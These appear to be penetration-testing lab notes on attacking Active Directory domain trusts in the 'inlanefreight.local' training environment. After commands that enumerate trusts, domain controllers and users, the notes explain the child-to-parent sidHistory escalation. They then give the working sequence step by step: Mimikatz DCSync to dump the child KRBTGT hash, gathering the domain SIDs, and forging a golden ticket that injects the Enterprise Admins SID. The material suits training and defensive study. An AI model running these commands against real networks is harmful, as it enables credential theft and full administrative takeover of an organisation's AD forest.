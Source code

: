 ```Bash
Import-Module activedirectory
Get-ADTrust -Filter *
```
```Bash
netdom query /domain:inlanefreight.local trust
```
Find DC
```Bash
netdom query /domain:inlanefreight.local dc
```
Find other machines
```Bash
netdom query /domain:inlanefreight.local workstation
```
  
**Enum users in child domain**  
```Bash
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```



## **Child -> Parent Trusts from Windows**
---
## sidHistory attribute
---
If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.
- If child domain has been compromised, this will allow you to move into parent domain
- if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest.
### Attack Requirements
---
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.
**Obtain KRBTGT for child domain**
```Bash
mimikatz # lsadump::dcsync /user:CHILD\krbtgt
```
**Get SID for child domain**
```Bash
Get-DomainSID
```
**Get SID of Enterprise Admins group of root domain**
```Bash
Get-DomainGroup -Domain DOMAIN.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
# or with ad module
 Get-ADGroup -Identity "Enterprise Admins" -Server "DOMAIN.LOCAL"
```
**FQDN of the child**
```Bash
Get-ADDomain
```
**Create Golden Ticket with Mimikatz**
```Bash
mimikatz # kerberos::golden /user:hacker /domain:CHILD.DOMAIN.LOCAL /sid:<SID-OF-CHILD-DOMAIN> /krbtgt:<KRBTGTHASH> /sids:<SID-of-Enterperise-Admins-gropup-of-root-domain> /ptt
```